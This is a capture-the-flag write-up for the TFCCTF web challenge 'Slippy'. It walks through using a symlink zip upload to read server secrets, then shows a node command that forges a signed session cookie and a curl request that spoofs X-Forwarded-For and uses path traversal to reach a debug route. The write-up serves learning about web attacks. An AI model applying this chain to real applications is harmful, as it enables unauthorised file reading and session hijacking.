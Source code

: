 # SLIPPY – 50 points – WEB (Baby)

**Author:** Sagi  
**Flavor text:** *Slipping Jimmy keeps playing with Finger.*

---

We are given a webpage `https://web-slippy-df9c4362a751a4a7.challs.tfcctf.com` that accepts zip file uploads, and lists em under `/files`.

---

## Dockerfile Clue

```dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; \
    mkdir "$rand_dir" && \
    echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && \
    chmod -R +r "$rand_dir"
```

Reading the Dockerfile I noticed the flag is always placed at `/random8/flag.txt`, but since the folder is randomized with 8 characters from `[a-z0-9]`, brute forcing (`36^8 ≈ 2.8 trillion`) is impossible.

---

## Vulnerability

After messing with file uploads a bit and some research, I found this was a **Zip Slip / symlink** vulnerability.  

I wrote and used `symlink_enum.py` to build a zip payload that let me enumerate the server. Uploading this, I could view some files (though `/proc/*` entries like mountinfo came back empty).  

- I added a time stamp to the payloads since i was messing with different ones and had a lot on my machine
- The instance with the server would timeout every 2 minutes making testing frustrating when crafting payloads, had to keep spinning up new ones between testing


---

## Useful Information Leaked

From `/app/.env`:

```
SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
```

From `/app/server.js`:

```js
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
});
```

This shows that a **develop** session is pre-seeded with a known SID.

---

## Forging the Cookie

With the SID and `SESSION_SECRET` I was able to forge a valid cookie using Node’s `cookie-signature`:

```bash
node -e "console.log(require('cookie-signature').sign(
  'amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E',
  '3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b'
))"
```

Output:

```
s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE
```

---

## Debug Route Abuse

There is a dev-only route `/debug/files`.  
It’s protected by:

```js
(req.session.userId === 'develop') && (req.ip === '127.0.0.1')
```

The forged cookie handles the session check. For the IP check, the app uses `trust proxy`, so we can spoof `X-Forwarded-For: 127.0.0.1`.

CURL:

```bash
curl -sSL \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "Cookie: connect.sid=s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE" \
  "https://web-slippy-463ad9a5dac5e550.challs.tfcctf.com/debug/files?session_id=../../.."
```

This lists the root `/`. One of the listed items `tlhedn6f` matched the randomization format from the Dockerfile:

```html
<li class="list-group-item">
  tlhedn6f
  <a href="/files/tlhedn6f" class="button">Download</a>
</li>
```

---

## Flag Access

Once I found the random folder (`tlhedn6f` here), I used the a symlink payload made by `symlink_flag.py` pointing to `/tlhedn6f/flag.txt`.  

Fetching it under `/files/tlhedn6f` outputs the flag.   

---


## Flag
`TFCCTF{3at_sl1P_h4Ck_r3p3at_5af9f1}`

## Notes

- I first tried replacing cookies in the browser, but the dev middleware also checked `req.ip`, so it was easier to spoof via curl.  
- `/proc/*` files didn’t help since they stream empty with Express.  
- The real solve path is:  
  1. Use Zip Slip to read `.env` + `server.js`.  
  2. Extract `SESSION_SECRET` and SID.  
  3. Forge cookie.  
  4. Spoof IP → access `/debug/files`.  
  5. Spot random dir.  
  6. Symlink to `/random8/flag.txt`.  
  7. Download flag.

---